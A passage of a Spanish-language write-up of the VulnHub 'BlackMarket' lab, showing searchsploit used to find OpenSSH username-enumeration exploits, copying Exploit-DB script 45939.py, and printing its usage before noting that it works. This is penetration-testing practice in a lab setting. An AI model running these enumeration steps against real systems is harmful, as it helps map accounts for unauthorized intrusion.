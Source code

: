 La version de `ssh` es vulnerable por que podemos enumerar usuarios de la maquina

```bash
❯ searchsploit ssh user enumeration
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                      | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                | linux/remote/45210.py
OpenSSH 7.2p2 - Username Enumeration                                                          | linux/remote/40136.py
OpenSSH < 7.7 - User Enumeration (2)                                                          | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                                         | linux/remote/40113.txt
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```bash
❯ searchsploit -m linux/remote/45939.py
  Exploit: OpenSSH < 7.7 - User Enumeration (2)
      URL: https://www.exploit-db.com/exploits/45939
     Path: /usr/share/exploitdb/exploits/linux/remote/45939.py
File Type: Python script, ASCII text executable

Copied to: /home/miguelrega7/VulnHub/BlackMarket/exploits/45939.py


❯ mv 45939.py ssh_user_enumeration.py
```

```bash
❯ python2.7 ssh_user_enumeration.py -h 2>/dev/null
usage: ssh_user_enumeration.py [-h] [-p PORT] target username

SSH User Enumeration by Leap Security (@LeapSecurity)

positional arguments:
  target                IP address of the target system
  username              Username to check for validity.

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Set port of SSH service
```

Vamos a probarlo y funciona
